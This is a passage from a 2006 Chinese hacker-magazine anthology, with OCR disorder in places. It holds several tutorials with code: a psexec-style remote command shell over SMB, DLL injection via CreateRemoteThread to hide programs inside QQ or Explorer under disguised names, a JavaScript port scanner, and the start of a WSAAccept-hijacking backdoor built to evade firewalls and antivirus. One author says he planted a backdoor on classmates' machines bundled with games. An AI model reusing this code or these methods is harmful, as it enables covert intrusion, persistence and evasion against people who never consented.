| ---- | ---- |
| IP Header | 20字节 |
| TCP Header | 20字节 |
| NETBIOS Header | 4字节 |
| SMB Base Header | 32字节 |
| SMB Command Data | |

当SMB直接运行于TCP上时，4字节的NETBIOS Header以其它4字节特殊字符代替。本实验中目标机器192.168.3.231上SMB协议直接运行于TCP上，开放445端口。根据捕获的数据包，分析双方通信流程如下。

> 192.168.3.158向192.168.3.231发送一个SMB negprot请求数据报（negprot是磋商协议“negotiate protocol”的简写），列出了它所支持的所有SMB协议版本。

> 192.168.3.158向192.168.3.231服务器发起一个用户或共享的认证。这一步是Session setup 和 X请求数据报实现的，该请求包含了一对用户名和密码。

> 在完成了磋商和认证之后，192.168.3.158发送一个TconX数据报并列出它想访问的特定网络资源IPC$和ADMIN$，之后192.168.3.231会发送一个TconX应答数据报以表示此次连接是否接受或拒绝。

> 在192.168.3.231同意访问上述资源后，192.168.3.158通过UNC规则在192.168.3.231上的ADMIN$目录下创建文件PSEXESVC.exe，并以此文件在192.168.3.231上创建服务。该服务负责执行用户提交的命令，并创建了4个命名管道，分别是接收命令参数 cmd.exe的管道hPipe，返回结果的管道hPipeStdout，在cmd中继续输入dir、cd等命令的hPipeStdin，以及返回错误信息的管道hPipeStderr。

> 在发出命令参数cmd.exe后，两个进程之间的通信实际上都是通过那4个命名管道来完成的。

> 通信结束后，删除192.168.3.231的PSEXESVC.exe及相关服务。

到这里，我们已经知道了整个通信过程的大体信息。在代码还原之前，可以用反汇编工具看看psExec究竟调用了哪些API函数。运行W32Dasm89（小巧使用，不要被溢出了），打开psexec.exe，从functions->imports中看到程序中使用的API函数，如图4所示。


图4

上面分析出的通信流程中可能涉及的函数居然都有，那就应该没什么问题了，现在对应流程把代码一步步写出来就行了。可能在实现过程中，一些函数的参数不好设置，往往会耽搁很久的时间。不过不着急，还有Softice。例如，你确定CreateFile函数会被调用，则在Softice中设置断点 bpx CreateFileA（不分大小写），当程序调用该函数时，就会在函数入口处停留下来，并弹出Softice，输入命令 `d esp + 4`（因为只压入了eip）就可以依次看到各参数的值了。由于代码较长，这里只给出主要部分，详细代码参见光盘附带的psexec源程序。

至于SMB协议的磋商、认证和请求资源这3步，可通过WNetAddConnection2( )函数完成

```c
NETRESOURCE nr = {0};
// 构造连接请求字符串
swprintf(ipc, _T("\\\\%s\\ipc$"), ptp->tip);
swprintf(admin, _T("\\\\%s\\admin$"), ptp->tip);

nr.lpLocalName=NULL;
nr.lpProvider=NULL;
nr.dwType = RESOURCETYPE_ANY;
// 请求IPC$
nr.lpRemoteName = ipc;
WNetAddConnection2(&nr, ptp->tPass, ptp->tUser, 0);
// 请求ADMIN$
nr.lpRemoteName = ipc;
WNetAddConnection2(&nr, ptp->tPass, ptp->tUser, 0);
```

Psexesvc.exe整个文件的内容是以数组的形式放在psexec源文件中的。在本地测试时，很容易得到psexesvc.exe，然后用编辑工具WinHex.exe打开psexesvc.exe，点击“Edit”->“Copy all”->“C source”，粘贴到psexec源文件中即可。在192.168.3.231上创建文件主体代码如下

```c
swprintf(ptp->tsvcPath, _T("\\%s\admin$\system32\PSEXESVC.EXE"), ptp->tip);
hpsExec = CreateFile(ptp->tsvcPath, GENERIC_WRITE,
FILE_SHARE_WRITE|FILE_SHARE_READ, &sa,
CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
// 往该文件中写数据,共61440字节
unsigned char szWrite[1460];
DWORD nWritten;
int i;
for(i = 0; i < 42; i++)
{
memcpy(szWrite, strFileData + (i * 1460), 1460);
WriteFile(hpsExec, szWrite, 1460, &nWritten, NULL);
}
// 最后120字节
memcpy(szWrite, strFileData + (42 * 1460), 120);
WriteFile(hpsExec, szWrite, 120, &nWritten, NULL);
```

创建并启动服务:

```c
swprintf(tRemoteName, _T("\\%s"), ptp->tip);
// 打开服务控制管理器
ptp->hSCManager = OpenSCManager(tRemoteName,
NULL, 0x000f003f);
```

www.hacker.com.cn
2006 精华奉献本 下册

## PROGRAMMING ANALYSE

栏目编辑：socket）socket@hacker.com.cn

```c
// 创建服务
ptp->hService = CreateService(ptp->hSCManager, _T("PSEXESVC"), _T("PSEXESVC"), 0x000f01ff, 0x00000010, 3, NULL, _T("%SystemRoot%\system32\PSEXESVC.EXE"), NULL, NULL, NULL, NULL);

// 获取服务句柄
ptp->hService = OpenService(ptp->hSCManager, _T("PSEXESVC"), GENERIC_ALL);

// 启动服务
StartService(ptp->hService, 0, NULL);

// 获取命名管道客户端句柄
HANDLE hPipe, hPipeStdin, hPipeStdout, hPipeStderr;
swprintf((PipeName, _T("\\%s\pipe\psexecsvc"), ptp->lp); //ptp->hostName为psexec.exe所在计算机名
swprintf((StdIn, _T("\\%s\pipe\psexecsvc-%s-0-stdin"), ptp->lp, ptp->hostName);
swprintf((StdOut, _T("\\%s\pipe\psexecsvc-%s-0-stdout"), ptp->lp, ptp->hostName);
swprintf((StdErr, _T("\\%s\pipe\psexecsvc-%s-0-stderr"), ptp->lp, ptp->hostName);

// hPipe负责接收参数cmd.exe
hPipe = CreateFile((PipeName, 0xc0000000/*GENERIC_WRITE|GENERIC_READ*/, 0, NULL, OPEN_EXISTING, 0, NULL);

// 发送命令参数
memcpy(ptp->szWriteBuf, "<%%", 2);
memcpy(ptp->szWriteBuf + 8, ptp->szHostName, 15);
memcpy(ptp->szWriteBuf + 268, "cmd.exe", 7);
DWORD dwReadBytes;
TransactNamedPipe(hPipe, ptp->szWriteBuf, sizeof(ptp->szWriteBuf), ptp->szReadBuf, sizeof(ptp->szReadBuf), &dwReadBytes, NULL);

//hPipeStdin负责标准输入
hPipeStdin = CreateFile((StdIn, 0x40000000/*GENERIC_WRITE*/, 0, NULL, OPEN_EXISTING, 0, NULL);

//hPipeStdout负责标准输出
hPipeStdout = CreateFile((StdOut, 0x80000000/*GENERIC_READ*/, 0, NULL, OPEN_EXISTING, 0, NULL);

//hPipeStderr负责错误处理
hPipeStderr = CreateFile((StdErr, 0x80000000/*GENERIC_READ*/, 0, NULL, OPEN_EXISTING, 0, NULL);
//通过管道进行通信：
while(1)
{
```

```c
// 读取返回信息
bRet = ReadFile(hPipeStdout, ptp->szReadBuf, sizeof(ptp->szReadBuf), &dwReadBytes, NULL);
if(bRet && dwReadBytes != 0)
{
    printf("%s", ptp->szReadBuf);
    memset(ptp->szReadBuf, 0, sizeof(ptp->szReadBuf));
    PeekNamedPipe(hPipeStdout, ptp->szReadBuf, sizeof(ptp->szReadBuf), &dwReadBytes, NULL, NULL);
    if(dwReadBytes > 0)
        continue;
}
// 继续输入命令
gets(szInput);
// 判断是否是exit
if(strcmp(szInput, "exit") == 0)
{
    结束操作, 参见psexec源文件
}
int l = strlen(szInput);
szInput[l] = 0x0d;
szInput[l + 1] = 0x0a;
for(int i = 0; i < l + 2; i++)
{
    // 逐字节发送命令, 如dir, 呵呵, 好累必须一字节一字节发送, // 否则会出错, 这是通过SoftIce跟踪时发现的,
    55, 好辛苦
    WriteFile(hPipeStdin, &szInput[i], 1, &dwReadBytes, NULL);
}
} //while结束
```

好了，工具的代码还原部分完成了。测试一下。

```
输入：
psexec 192.168.3.231 -u administrator -p ****
回车。OK，进去了！如图5所示。
```


#### 小结

本文我主要对工具psexec.exe进行了解析，并给出了大概的代码。其实整个过程并不复杂，清晰的思路才是关键，这一点对于搞入侵研究的人尤为重要，希望能给朋友们一点启示。

::: Socket: 在日常的计算机使用中，我们在删除文件的时候，看似文件从磁盘删除了，其实文件还“保存”在磁盘中，原因是系统仅仅把删除的文件标志成了已删除，可让其他文件覆盖，而在覆盖之前，我们可通过工具恢复删除的文件，这样就造成了文件的不安全性。那么，我们有没有什么方法把文件彻底删除呢？
适合读者：编程爱好者
前置知识：Delphi基础

### 安全删除你的文件

文/图 彭毅

#### 原理

可能使用过PGP加密软件的朋友会注意到，在高版本的PGP（我使用的是8.1版本）中出现了一个新的功能 Wipe File。使用这个安全删除功能对文件进行删除后，用FinalData即使看得到文件名，也无法对其进行恢复。PGP是怎么做到的呢？

目前对于文件进行安全性删除，大多采用编码覆盖的方法。具体操作为：

- 1. 用全1进行整体覆盖
- 2. 用全0进行整体覆盖
- 3. 用随机数进行整体覆盖。

步骤1和2分别进行一次，步骤3一般进行3次为有效删除，如果不放心可以进行5次。当然也不排除BT份子进行十七八次。反正主动权在你手上，怎么用就各随所好了。

#### 实现

这里我用Delphi来演示编码覆盖文件的方法。首先需要进行文件填充就应该建立一个合适的缓冲区，然后利用该缓冲区对文件进行填充。建立缓冲区使用类似于如下代码：

```pascal
SetLength(fBuf,1024);
```

上面的句子代表建立一个大小为1024字节的缓冲区fBuf。这里注意缓冲区大小的设定，如果太小会影响的文件执行的效率，太大又会造成内存吃紧。在进行程序测试的时候，我尝试使用1个字节的缓冲区，结果一个几百K-B 的文件，一顿饭的功夫都没填充完毕。一般来说，1KB大小的缓冲区相对合适一些。演示程序里加入了时间测试，大家可以更改缓冲区大小，自己测试一下实际运行的效率。

接下来要对缓冲区进行填充，我偷了一个懒，采用FillChar函数进行。FillChar函数原型为

```pascal
procedure FillChar(var X; Count: Integer; Value: Byte);
```

第一个参数（X）为指向需要填充缓冲区的指针，第二个参数（Count）为需要填充的字符数，第三个参数（Value）是需要填充的特定字符。程序如下使用FillChar：

```pascal
FillChar(fBuf[0],1024,0);
```

上面的句子代表把刚才的缓冲区填充1024个0。这样我们就拥有了一个全0的缓冲区。

接着我们打开需要被删除的文件。打开文件的方法很多，演示程序中采用的是文件流的操作方式，代码如下:

```pascal
fs:TFileStream; // 定义流文件
fs:=TFileStream.Create
(sDelFile,fmOpenWrite or fmShareExclusive);
```

夹。原理就在于使用Delete或Shift+Delete方法，Windows系统只是对文件或文件夹进行了关键标志的修改（把它指定为已删除），这样在资源管理器中我们没有办法看到，从而达到“删除”的目的（看不见不代表不存在）。FinalData之类的恢复软件能搜索这样的标志，再把它改回来。现在问题出现了:我们被Windows骗了很久。我们不能坐以待毙，一起拿起手中的武器，来打造一个属于自己的文件删除器。

```pascal
以写入和拒绝共享方式打开文件。
接下来对文件大小进行判断:
fSize:=fs.Size; // 取得文件大小
fSizeSlow:=fSize div 1024; // 设定大小单位为K
如果小于1K,就直接写入全0:
if fSize<1024 then
begin
  SetLength(fBuf,fSize); // 建立缓冲区
  FillChar(fBuf[0],fSize,0); // 用0填充缓冲区
  fs.Seek(0,soFromBeginning); // 调整文件指针
  fs.WriteBuffer(fBuf[0],fSize); // 直接写入
  exit; // 退出
end;
否则按1K大小进行划分,求出片段个数及余数,进行主体填充:
iNum:=fSize div 1024; // 以1K大小来除
iSizeLeft:=fSize-iNum*1024; // 求得余数
SetLength(fBuf,1024);
FillChar(fBuf[0],1024,0);
// 建立大小为1K,内容为0的缓冲区
fs.Position :=0;
for i:=0 to iNum-1 do
begin
  fs.Seek(i*1024,soFromBeginning); // 不断调整文件指针
  fs.WriteBuffer(fBuf[0],1024); // 写入字符0
  pblnfo.Position :=i; // 进度条显示
  application.ProcessMessages; // 防止程序当死
end;
最后把剩余字节全部填充0:
if iSizeLeft<>0 then
begin
  SetLength(fBuf,0);
  SetLength(fBuf,iSizeLeft);
  FillChar(fBuf[0],iSizeLeft,0);
  fs.Seek(iSizeLeft,soFromEnd);
  fs.WriteBuffer(fBuf[0],iSizeLeft);
  // 完成剩余的字节数
end;
```

现在就完成了对文件全0的填充工作。填充全1和随机填充的步骤大同小异，大家可以参考程序代码来测试。

完整的代码有详细的注释，另外加入了时间测试（GetTickCount函数），方便大家测试填充一个特定大小文件花费的时间。

大功告成，程序运行界面抢鲜（图1所示为打开文件界面，图2所示为填充数字0的结束界面）。


#### 思考

该演示程序大体能够完成对一般文件的填充工作，具体的删除工作大家可以自己使用自己喜欢的API函数来完


#### 编程解析
> 栏目编辑 > socket > socket@hacker.com.cn

成，如DeleteFile()。使用填充方法删除后的文件，再使用FinalData等文件恢复工具来进行恢复时，你会发现能够找到文件名，但无法恢复其内容。因为真实内容已被我们覆盖。

是不是有点成就感？先别高兴，演示程序并不是十全十美，可修改和扩充的地方还有很多。如下所述。

- 1. Delphi中的TFileStream类只能打开小于2G大小的文件，如果是超过2G的文件(如DVD压缩影片)，程序就黔驴技穷了。改进的方法就是采用其它的文件打开方式。
- 2. 演示程序中使用FillChar函数来进行字符填充。

大家注意，FillChar是一个没有边界检查的函数。也就是说，本来1KB大小，如果你不小心把程序写作FillChar(fBuf[0]，10024，0)；就会造成缓冲区溢出，轻则造成程序出错，重则造成系统当机。需要对填充长度进行有效控制，或考虑使用其他的填充函数。

- 3. 程序只能对单个文件进行填充，可以考虑使用多线程对多个文件进行填充。这样使程序更具有实用价值。

不过，对于演示程序我们也不用斤斤计较，重要的是通过练习，锻炼了我们动手解决实际问题的能力。希望能和大家共同学习进步，我的E_mail是ppanger@hotmail.com。感谢黑防给我提供机会，欢迎大家一起讨论。


Socket: 前段时间每晚睡觉前总要玩几把魔兽，这段时间居然怀旧般的玩起了星际。提到星际，又想起原来MTY等当时国内一流高手激战的热闹场面……扯远了，不过魔兽、星际里面的隐形兵种大家都还是非常熟悉吧？我们今天就要来学习亲手打造操作系统里面的隐形兵。

适合读者：编程爱好者、黑客迷
前置知识：Windows API

### 利用远程线程技术制造隐身程序

文/图 Navyseals


我们知道系统中每个进程都有自己独立的内存空间，其它进程不得随意访问，但是并不是说无法访问。API函数CreateRemoteThread就可以在其它进程中创建新的线程，就好像把一个寄生体注入到了其它生物中一样。这个寄生体将会与它的宿主“同生共死”并且拥有宿主的所以权限。由于我们的程序代码寄生在其它进程内部，所以一般人使用任务管理器是看不见这个“寄生”进程的。下面我们来看看如何具体实现这一过程，在下面的例子中，我所使用的编译器是Delphi，但由于几乎主要讲解的函数都是Windows API函数，所以下面的东西跟编译器没有什么关系，使用VC或者VB一样可以使用下面提到的函数。

这个函数将会返回一个本地系统内独一无二的ID，用于系统权限的更改，它的第1个参数是系统名，nil表示本系统。第2个参数是特权的名字。第3个参数用来接收函数返回的ID。

#### 第一步，提升本进程的系统权限

因为我们要操作的是系统中的其他进程，没有足够的系统权限是无法读取甚至写入其它进程的内存地址的，所以首先需要提升自己的权限。提升进程权限可能用到以下的函数。

- 1. 函数OpenProcessToken(

```
HANDLE ProcessHandle, // 进程的句柄
DWORD DesiredAccess, // 对进程的访问描述
PHANDLE TokenHandle // 打开进程令牌的句柄指针
);
```

这个函数的作用是打开进程令牌。

- 3. 函数AdjustTokenPrivileges(

```
HANDLE TokenHandle, // 更改权限的令牌环句柄
BOOL DisableAllPrivileges, // 是否修改所有权限的标志位
PTOKEN_PRIVILEGES NewState, // 新的系统权限信息
DWORD BufferLength, // 上一个参数的长度
PTOKEN_PRIVILEGES PreviousState, // 返回更改系统特权以前的权限
PDWORD ReturnLength // 上一个参数的长度
);
```

这个函数用于更改进程的系统权限，第1个参数是要更改权限的令牌环句柄。第2个参数如果为True表示更改所有的系统权限，False表示更改部分。第3个参数是要更改的系统特权的值。第4个参数是第3个参数的大小。第5个参数返回更改系统特权以前的权限，我们不需要就设为nil。第6个参数是第5个参数的大小。

把上面的东西合起来写成一个函数，我们在其他代码中间直接调用PromoteDebugPrivilege就可以提升本进程的系统权限了。代码如下：

- 2. 函数LookupPrivilegeValue(

```
LPCTSTR lpSystemName, // 系统名称
LPCTSTR lpName, // 特权名称
PLUID lpLuid // 本地系统唯一的ID号
);
```

```
function PromoteDebugPrivilege(const PromoteEnabled: Boolean): Boolean;
var
hToken: THandle;
TokenPriv: TOKEN_PRIVILEGES;
```

www.hacker.com.cn
2006 精华奉献本 下册

```
Length: DWORD;
begin
    Result := False;
    if (OpenProcessToken(GetCurrentProcess(),
    TOKEN_ADJUST_PRIVILEGES, hToken)) then
    begin
        TokenPriv.PrivilegeCount := 1;
        LookupPrivilegeValue(nil, 'SeDebugPrivilege',
        TokenPriv.Privileges[0].Luid);
        if PromoteEnabled then
            TokenPriv.Privileges[0].Attributes :=
        SE_PRIVILEGE_ENABLED
        else
            TokenPriv.Privileges[0].Attributes := 0;
        Length := 0;
        AdjustTokenPrivileges(hToken, False, TokenPriv,
        SizeOf(TokenPriv), nil, Length);
        Result := GetLastError = ERROR_SUCCESS;
        CloseHandle(hToken);
    end;
end;
```

#### 第二步，进入宿主的内存空间

在拥有了进入宿主程序内存的权限之后，我们所要做的就是在其内存空间加入一些新的程序代码，或者是让其载入一个Dll文件里面的函数并运行起来。加入新的代码可以省掉一个Dll文件，而加载Dll文件可以安装一些系统级的钩子，如果我们的隐形程序是一个截获密码的程序，加载Dll就是一个很好的选择。

Kernel32.Dll中的函数LoadLibraryW可以加载Dll，它只需要Dll文件的文件路径就可以完成操作，我们可以很容易地在程序代码中实现取出一个文件路径的操作。但是，我们希望宿主程序中加载，而我们取出的Dll文件路径并不存在于宿主程序的内存空间里面，所以我们需要把Dll的文件路径写入宿主的内存空间。这些操作可能用到以下的函数：

```
1. 函数OpenProcess(
    DWORD dwDesiredAccess,    // 访问标志
    BOOL bInheritHandle,      // 继承句柄标志
    DWORD dwProcessId         // 进程Id
);
```

这个函数用于修改我们宿主进程的一些属性，这些属性放在第一个参数里面，比如PROCESS_VM_OPERATION就是允许远程VM操作，即允许VirtualProtectEx和WriteProcessMemory函数操作本进程内存空间。PROCESS_CREATE_THREAD就是允许远程创建线程。PROCESS_VM_WRITE就是允许远程VM写，即允许WriteProcessMemory函数访问本进程的内存空间。第2个参数是一个标志参数，用来确定返回的句柄是否可以被新的进程继承。我们的程序中设为False。第3个参数需要操作的进程Id，也就是我们的宿主进程的Id。

- 2. 函数VirtualAllocEx(

```
HANDLE hProcess,            // 要进行操作的进程句柄，当然是我们的宿主了
LPVOID lpAddress,           // 分配空间的起始地址
DWORD dwSize,               // 分配空间的大小
DWORD flAllocationType,     // 分配空间的类型
DWORD flProtect             // 访问保护类型
);
```

我们使用VirtualAllocEx函数在宿主进程中开辟一块内存空间，用于存放Dll的文件名。VirtualAllocEx的第1个参数是要操作的进程，第2个是起始地址，第3个是长度，第4、5个是操作参数。其中MEM_COMMIT表示本函数分配的是物理内存或者是内存的页面文件，PAGE_READWRITE表示分配的区域允许读写。

```
3. 函数WriteProcessMemory (
    HANDLE hProcess,        // 所要操作进程的句柄
    LPVOID lpBaseAddress,   // 开始进行写操作的起始地址
    LPVOID lpBuffer,        // 要写入数据的缓冲区指针
    DWORD nSize,            // 要写的bytes数
    LPDWORD lpNumberOfBytesWritten, // 实际写入的bytes数
);
```

前面在宿主内存中创建好空间后，现在往里面写入Dll的名称，而我们的WriteProcessMemory函数就可以胜任这项工作。WriteProcessMemory函数的第1个参数，是需要往其内存里面写入dll的进程句柄，第2个参数是“要进行写操作”的目标内存起始地址，第3个参数是“需要被写入的数据”的地址，第4个参数是准备要写入的长度，第5个参数是实际操作中写的长度，这个参数是被函数输出的。到这里我们就已经能成功把Dll的路径名称写进了宿主的内存空间。

#### 第三步，在宿主中启动新的线程

刚才我们已经在宿主程序中创建了一个用于存放一个Dll文件路径的缓冲区，现在我们就让这个Dll在宿主的内存空间中运行起来。我们是用LoadLibraryW函数来加载的，而使用LoadLibraryW，又需要知道LoadLibraryW函数的入口地址。所以在加载Dll之前，我们要用GetProcAddress来得到LoadLibraryW的入口地址。我们来看看这几个函数的使用方法：

```
1. GetProcAddress(
    HMODULE hModule,    //Dll 模块的句柄
    LPCSTR lpProcName   // 函数名称
);
```

我们用这个函数主要想得到kernel32.Dll中的函数LoadLibraryW的入口地址，所以GetProcAddress(GetModuleHandle('Kernel32'), 'LoadLibraryW')就可以了，当然有些细节得符合程序编译器的要求，VC下使用就要改成GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW")的形式。

```
2. CreateRemoteThread (
    HANDLE hProcess,        // 要进行操作的进程句柄，也就是我们的宿主句柄
    LPSECURITY_ATTRIBUTES lpThreadAttributes, // 线程安全属性的指针
    DWORD dwStackSize,      // 初始化堆(stack)的大小
    LPTHREAD_START_ROUTINE lpStartAddress, // 新建线程函数的指针，或叫做地址
    LPVOID lpParameter,     // 新建线程函数的参数
    DWORD dwCreationFlags, //标志位
    LPDWORD lpThreadId //线程返回值
)
```

这个函数就是本文的点睛之笔了，我们之前所做的一切，都是在为它做准备工作，它的功能就是在其它任何进程中创建新的线程，让其它的程序或进程附加执行我们的代码。

CreateRemoteThread函数的第1个参数是要操作的宿主进程句柄，第2个参数为线程安全参数的指针，这里设为nil；第3个参数为初始化堆(stack)的大小，这里设0；第4个参数为新建线程函数的指针或叫做地址或叫入口；第5个参数为新建线程函数的参数，这里就是我们的DLL路径名称；第6个参数是标志位，这里设0；第7个参数是线程返回值。

到这里，我们基本上把如何编写一个能够寄生在其它进程之中运行的API函数都依次讲完了，如果读者有兴趣亲手试一下的话，在光盘中可以找到已经编好的程序完整代码和详细的程序注释。当然这个寄生在其它进程中的DLL文件还需要自己编写，不过我写的内容是弹出一个“Helloworld”，而寄生的宿主是我们常用的QQ。我们打开Windows的任务管理器，看到有QQ在运行，而看不到其他的东西，如图1所示。

而使用Windows优化大师的进程管理工具，可以看到我们的testDll已经寄生在QQ内部并且开始运行了，如图2所示。


#### 后记

为了方便读者试验这个程序我把QQ作为我们的宿主程序，因为关掉QQ就可以中止我们的“隐形程序”。如果我们把系统的Kernel32或者Explorer作为宿主，那就没有人随便关掉它们了。我们看到图2中使用专门的进程管理程序是可以看见我们的DLL在QQ中运行的，但是如果我们DLL的名字不叫testDll而叫做什么QQAPI.Dll或者Wsock32.Dll之类的，估计能引起注意的可能就很小了。

另外，曾经很有名的“中国黑客”病毒的“三线程”技术，就使用了本文所涉及的线程注入技术，三线程的主要思路就是让程序创建3个线程，第1个线程同时监视注册表和第2个线程的运行状况。第2个线程是寄生在系统进程中的“隐形”线程，它主要负责监视第一个线程的运行状况。第3个线程是功能实现线程。它的自我保护机制就是前2个线程相互监视，一旦发现异常就设法重新启动对方。如果我们的宿主程序是Explorer.exe和Taskmgr.exe的话，那么用任务管理器来关闭程序就是不可能完成的任务了，因为只要taskmgr在运行，寄生在它体内的“隐形”线程就会发挥其作用。网上也有不少“三线程”技术的实现代码，读者可以自行找来看看，用来巩固编程技能，但是我的初衷只是想和大家交流和学习技术，希望读者不要根据本文编出一些无聊的程序来做一些破坏性的事情。


Socket:虽然过去黑防曾做过扫描器的介绍，但这款JavaScript TCP扫描器是本文作者在一个特殊的环境下用JS做的，虽然简单却有不错的实用性。

适合读者：脚本爱好者、入侵爱好者
前置知识：JavaScript

### 临时制作JavaScript TCP扫描器

文/图 全金属外壳

事情起因是我在学校PC教室测试我的后门。当我把后门用无敌WinRAR捆绑机和几个秘传小游戏绑到一块放到共享目录后，突然发现忘了带扫描器啦(学校的PC室上课时是断网的，而我在后门配置时让后门监听1122端口，非反向连接)。没有扫描器，如何得知哪些同学为我的后门测试光荣奉献了自己的机器？ 呜呼！不知如何是好。

我见旁边的MM在用写字板打字，灵机一动，计上心头。于是就有了本扫描器的诞生，可惜是单线程的，慢了点。


测试环境：Windows 2000。
使用工具：写字板，Cscript.exe。
使用组件：Mswinsock。

我先看看机器上有没有Winsock控件注册。

```
Var socket =new ActiveXObject("MSWinsock.winsock");
Socket.Aboutbox();
```

保存上面的代码为“Test.js”，在命令行输入Cscript test.js，出现Winsock的关于对话框，如图1所示。

#### 编程解析
> 栏目编辑：socket socket@hacker.com.cn


说明Winsock可用，这就好办了。现在开始脚本版端口扫描器编写工作，我使用的是JavaScript，喜欢它的函数风格（和冰狐大哥套近乎，呵呵）。首先要想想扫描器的工作流程，我用伪代码描述如下

```
main()
{
    初始化
    while(还有IP没被扫)
    {
        for (i=开始端口; i<=结束端口; i++)
        {
            if (端口开放)
                显示i号端口开放。
        }
    }
}
```

虽然我在编写时使用了多个子函数，但是程序的大致流程还是这样的。
先定义几个全局变量：

```
var socket=new ActiveXObject("MSWinsock.winsock"); //winsock对象
var info="\t\t------ Metallic Scanner v1.2 **------\n\t\t\tmade by Metallic Shell\n\t\t\tUsage: \n\t\t\tcscript.exe MetScan.js <Begin Address> <End Address> <Begin Port> <End Port> [outTime=50]";
var beginPort=1;        //起始端口
var endPort=2;          //结束端口
var again;              //记录扫描重复次数的变量，下面有体现
```

看看Main()函数。在js里本来是没有规定要有main函数的，但是出于习惯，我使用了C++的风格。

```
function Main()
{
    var cmdLine = WScript.Arguments;// 这个对象用来取得参数
    var outTime=50;         // 默认的超时时间
    var beginAddr="192.168.1.100";//默认开始IP
    var endAddr="192.168.1.102";  //默认结束IP
    var addrCounter;        //ip计数器
    WScript.echo(info);
    /*------- 取得命令行参数 -------*/
    if (cmdLine.length<4 || cmdLine.length>5) //不符合要求的参数
    {
        WScript.echo("Undefine Cmd Line!\n"+sample);//显示参数说明
        return 0;
    }
    else            //cmdLine.length==5
    {
        outTime=cmdLine(4);
    }
    /*---------------------------*/
    //下面对变量进行初始化
    beginAddr=cmdLine(0);
    endAddr=cmdLine(1);
    beginPort=cmdLine(2);
    endPort=cmdLine(3);
    addrCounter=beginAddr;
    again=outTime/10;
    socket.Protocol =0;//使用TCP协议
    WScript.echo("Metallic TCP/IP Scanner will scan the address from "+beginAddr+" to "+endAddr+"\n"+"The Ports Rang is:"+beginPort+"~"+endPort);
    do
    {
        WScript.echo("Scan "+addrCounter+":");
        WScript.echo("\t\t(Address: \t\t(Port:\t\t(State:)");
        Scan(addrCounter);          //用来扫描的子函数
        addrCounter=Addaddr(addrCounter);   //IP节点加1
    }while (addrCounter!=Addaddr(endAddr))
    WScript.echo("Scan Complete!\n");
    return 0;
}
```

Addaddr()是用来使得IP节点+1的函数。至于Scan(addrCounter)即调用了扫描IP端口的子函数。先看看Addaddr：

```
function Addaddr(str)//使得Ip地址节点加1的函数
{
    var para=new Array(4);
    para=str.split(".");//对Ip地址分割
    if (para[3].to==256)
    {
        para[3]=0;
        para[2]++;
    }
    else
    {
        para[3]++;
    }
    return (para[0]+"."+para[1]+"."+para[2]+"."+para[3]);//把分割处理的各段拼接
}
```

很简单，不多说了。然后看看最重要的Scan函数

```
function Scan(addr)
{
    var portCounter;                //端口计数器
    for (portCounter=beginPort;portCounter<=endPort;portCounter++)
    {
        var i=0;                    //内部计数
        socket.Close();             //事先要关闭可能的连接，以免出错
        socket.Connect(addr,portCounter);//连接远程主机的端口
        while (i<again && socket.State!=9)//如果Socket未出错且没有超时就继续循环等待，超时就不管了
        {
            if (socket.State==7)//如果连接上了
            {
                WScript.echo("\t"+addr+":\t\t"+portCounter+"\t\t(Open!)");
                //这里有一段抓Banner的代码，但是不知为何，总是失败，就是buffer总是为空
                WScript.sleep(100);
                if (socket.bytesReceived>0)
                {
                    var buffer="";
                    socket.getdata(buffer,8);
                    WScript.echo("\t\t(Bannar:"+buffer);
                    break;
                }
            }
        }
    }
}
```


## 编程分析 PROGRAMMING ANALYSE
> 栏目编辑：socket socket@hacker.com.cn

```
WScript.sleep(10);//叫它睡一会，否则你的机器的资源会被吃掉很多！
i++;
}
```

```
if socket.bytesReceived>0 then
dim buffer
buffer=""
socket.getdata buffer,8
WScript.echo "Banner:"+buffer
End if
```

这个函数有个问题，就是抓Banner那块代码，GetData后buffer总是空的，但是socket.bytesReceived在GetData后就会变成0（如果这个端口有数据过来按理说socket.bytesReceived>0而且buffer应该就是Banner了），这里郁闷了我好久，网上也没有提到相关资料，还望高手指教。不过我在测试时发现用VBScript写这段代码就不会有问题了，大家可以用Vbs写：

怎么样，一个支持多IP多端口的扫描器就在记事本中做好了，很有成就感吧？如图2所示。


图2

作者语：各位编辑、读者朋友大家好，我是黑防的忠实读者，也是hacker.com.cn的老会员了。从黑防学到了很多东西，一直想写点什么，但水平太差，始终没写成。这两天有了点想法，想写个后门，经过实践，还是很成功的。于是赶紧写成稿子，和大家交流交流，共同提高嘛！如果稿子写得不好，请多指教！另外，向WTF、蝴蝶MM、脚本小子、刘流……总之一句话，向所有人问好：同志们辛苦了（画外音：为人民服务！）！

适合读者：编程爱好者、黑客迷
前置知识：C语言基础

### 劫持WSAAccept()实现无端口后门

文 / abettor

随着网民安全意识的日益提高，现在找个安全隐蔽的后门是越来越难了。用现成的固然省事，但无奈前有防火墙的堵截，后有杀毒软件的追击，用起来还得百般小心，生怕露出马脚，被管理员发现，好不容易得来的肉鸡又顷刻飞掉，岂不痛心？俗话说“自己动手，丰衣足食”，我就不信自己写的后门也会立刻被杀！心动不如行动，让我们马上开始吧！

#### 需求分析

我们的目的很简单：①实现一个后门，②能穿透防火墙，③不能立刻被杀（自己写的当然不会被杀啦）。

#### 实现方法及原理

①相信大家都知道怎样通过编程把一个Cmd Shell绑定到Socket吧，我今天要编的这个后门基本上也是使用这种方法。以前黑防的文章已经讲过了很多了，我就不赘述了。

②穿透防火墙，这是一直以来，尤其是最近大家谈的热点话题之一，也是我这次所要和大家探讨的主要内容。在具体实现上，我的思路是先找到一个合法的网络服务进程P，做一个动态链接库（DLL）文件Seize.dll，以CreateRemoteThread的方法将其插入进程P，形成线程T；线程T根据PE文件格式，查找P进程的引入函数地址表（IAT），并在IAT中查找WSAAccept和Accept函数的指针，修改其值使之指向我们自己定义的函数FackWSAAccept；函数FackWSAAccept首先调用真正的WSAAccept函数，判断客户身份，绑定Shell并返回，这就是所谓的劫持。这样的好处是没有可疑进程，而且不开端口。

#### 知识准备

动态链接库：一个可以被某个进程调用执行的文件，它可以包含被进程调用的资源、函数、全局变量等，它也是PE格式文件。它的入口函数是DllMain，也可以为空。当DllMain存在时，进程在加载/卸载时会调用此函数。

PE文件格式：可移植执行体，分为DOS stub、PE header、Section tables、Sections等几部分，我们这里关心的是PE header里的Optional header，它的Import Address Table（IAT）成员就指向了我们要修改的引入函数地址表。网上有很多关于PE文件格式的文章，不做过多的分析了。

